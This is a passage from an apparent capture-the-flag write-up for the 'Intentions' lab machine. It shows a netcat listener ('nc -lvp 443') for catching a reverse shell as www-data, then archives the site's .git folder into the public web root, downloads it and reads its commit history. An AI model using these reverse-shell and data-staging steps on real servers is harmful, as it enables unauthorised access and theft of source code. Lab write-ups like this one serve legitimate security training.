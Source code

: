 Before executing this don't forget to turn on your listener

```
nc -lvp 443
```
![Reverse shell](/assets/img/Intentions/Intentions_5.png)

### Lateral movement to other user

So now we have a reverse shell as www-data its time to escalate this to user privileges.  After looking around i noticed that there was a .git folder with multiple commits present. When i tried to view these i was getting errors that this folder wasn't trusted and www-data was not able to view these files. Next i then archived the entire .git folder into a tarball and placed in the public part of the web application so i could easily download it.

```
tar -cvf public/Calico.tar .git
```

Next i downloaded the tar from the following URL:

```
http://10.10.11.220/Calico.tar
```

then un-archived it be patient because its a large amount of small files:

```
tar xf Calico.tar
```

Then after extracting you need to run the git log command to show all commits that happened in this project. if this errors out saying its not a safe directory you have to run the command it suggests first
```
git log                                          
commit 1f29dfde45c21be67bb2452b46d091888ed049c3 (HEAD -> master)
Author: steve <steve@intentions.htb>
Date:   Mon Jan 30 15:29:12 2023 +0100

    Fix webpack for production

commit f7c903a54cacc4b8f27e00dbf5b0eae4c16c3bb4
Author: greg <greg@intentions.htb>
Date:   Thu Jan 26 09:21:52 2023 +0100

    Test cases did not work on steve's local database, switching to user factory per his advice

commit 36b4287cf2fb356d868e71dc1ac90fc8fa99d319
Author: greg <greg@intentions.htb>
Date:   Wed Jan 25 20:45:12 2023 +0100

    Adding test cases for the API!

commit d7ef022d3bc4e6d02b127fd7dcc29c78047f31bd
Author: steve <steve@intentions.htb>
Date:   Fri Jan 20 14:19:32 2023 +0100

    Initial v2 commit
```
